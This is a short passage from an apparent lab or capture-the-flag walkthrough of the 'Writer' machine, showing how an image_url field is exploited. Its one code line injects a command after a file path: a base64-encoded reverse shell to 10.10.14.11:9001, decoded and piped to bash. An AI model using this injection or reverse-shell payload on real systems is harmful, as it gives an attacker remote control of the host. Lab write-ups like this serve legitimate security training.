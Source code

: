 ![image-20230108141359123](./images/image-20230108141359123.png)

upload again, exploit image_url

```bash
file:///var/www/writer.htb/writer/static/img/test.jpg; echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash;
```

![image-20230108141500217](./images/image-20230108141500217.png)
